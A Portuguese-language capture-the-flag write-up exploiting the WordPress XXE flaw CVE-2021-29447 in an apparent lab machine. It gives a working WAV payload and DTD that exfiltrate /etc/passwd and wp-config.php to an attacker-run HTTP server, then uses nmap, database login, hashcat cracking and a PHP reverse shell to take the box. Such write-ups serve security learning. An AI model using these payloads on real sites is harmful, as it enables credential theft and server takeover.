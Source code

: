 # _**Wordpress: CVE-2021-29447**_
![](wp.jpg)

# Informativo
_Uma vulnerabilidade XXE consiste em uma injeção que se aproveita da configuração incorreta do interpretador XML_
_Isso nos permite incluir entidades externas, possibilitando o ataque a aplicações que interpretam a linguagem XML em seus parâmetros_  
_Pesquisadores da empresa de segurança SonarSource descobriram uma falha de segurança de injeção de entidade externa XML (XXE) na biblioteca de mídia do WordPress_  
_A vulnerabilidade pode ser explorada somente quando este CMS roda em PHP 8 e o usuário atacante tem permissão para carregar arquivos de mídia_  

# Impacto
<mark>Divulgação arbitrária de arquivos:</mark> O conteúdo de qualquer arquivo no sistema de arquivos do host pode ser recuperado, por exemplo, wp-config.php que contém dados confidenciais, como credenciais de banco de dados  

<mark>Falsificação de solicitação do lado do servidor (SSRF):</mark> Solicitações HTTP podem ser feitas em nome da instalação do WordPress  

# Arquivo malicioso WAV
Com seu console _bash_, digite
> ```bash
> nano poc.wav echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[ip_address]:[port]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
> ```

Na sua máquina de ataque, crie um arquivo dtd com o seguinte código. Isso nos permitirá executar o código seguindo o servidor web que busca o arquivo dtd  
Certifique-se de que o nome deste arquivo corresponde ao que você inseriu no arquivo _.wav_ para **NAMEEVIL.dtd**  
> ```bash
> <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
> <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://[ip_address]:[port]/?p=%file;'>" >
> ```

Agora inicie um servidor http no mesmo diretório do arquivo dtd: ```php -S [ip_address]:[port]```  
Agora carregue o _.wav_ malicioso no aplicativo WordPress!  
Depois de carregar o arquivo _.wav_, você deverá ver uma solicitação nos logs do seu servidor HTTP  

## _**Parte prática**_
Vamos utilizar a ferramenta <mark>wpscan</mark> para enumerar  
> ```bash
> wpscan --url [ip_address] -U -e vp vt
> ```
![](wp_scan.jpg)

Seguindo as instruções, realizamos login no website  
Vamos para _/wp_admin/upload.php_ realizar _upload_ de nosso _payload_ _.wav_  
Primeiro, ligamos nosso servidor HTTP com Python: ```python3 -m http.server [port]```  
O exemplo diz para utilizar ```php```, mas é mais rápido com este  
Segundo, nossos arquivos estão prontos, realizamos _upload_ e temos resultado  

![](upload_return.jpg)

Utilizando [cyberchef](https://cyberchef.io/) para traduzir o conteúdo, temos o arquivo _/etc/passwd_  
Note que para a tradução, é preciso incluir _raw inflate_, senão o resultado será diferente  

![](cyberchef.jpg)

Para obtermos o arquivo de configuração, vamos alterar nosso arquivo _script.dtd_ para obtermos _//var/www/html/wp-config.php_  

![](var_www_return.jpg)

Nesta tradução, conseguimos as respotas para:
* _Based on the results of #1, what is the name of the database for WordPress?_
* _Based on the results of #1, what are the credentials you found?_
* _Enumerate and identify what is the dbms installed on the server?_

Um rápido scan com ```nmap -p- -sV --open [ip_address]``` e temos:
* _Based on the results of #4, what port is the dbms running on?_
* _Based on the results of #4, what is the dbms version installed on the server?_

Realizando login via ```mysql -h [ip_address] -u [username] -p --skip-ssl```, conseguimos responder:
* _Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??_
* _Based on the results of #7, What is the password in plaint text?_
* _Compromise the machine and locate flag.txt_

Para a primeira, é necessário identificar a hash com <mark>hash-identifier</mark>  
Para a segunda, é preciso quebrar a hash identificada. Vamos utilizar <mark>hashcat</mark>: ```hashcat -m 400 [hash] [wordlist]```  
Para a terceira, vamos realizar login como ```corp-001``` e então podemos usar um script em PHP do _pentest monkey_ para obter um _reverse shell_ direto em plugins  

![](flag.jpg)
